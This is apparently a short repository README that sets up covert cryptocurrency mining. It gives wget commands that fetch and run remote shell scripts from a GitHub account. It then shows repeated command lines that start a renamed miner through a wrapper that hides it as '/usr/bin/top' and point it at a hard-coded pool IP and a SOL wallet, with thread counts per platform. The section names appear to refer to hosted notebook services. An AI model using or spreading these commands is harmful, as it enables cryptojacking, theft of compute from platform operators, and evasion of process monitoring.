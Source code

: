 ##action one 

#deep

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh && cd /usr/bin

#datalr

wget https://raw.githubusercontent.com/hudahadoh/hime/main/dl.sh && chmod +x dl.sh && ./dl.sh && cd /usr/bin

##rand optimized deep
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 8 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages

##rand optimized datalr
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 2 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages


###rand optimized colb

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 90 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax

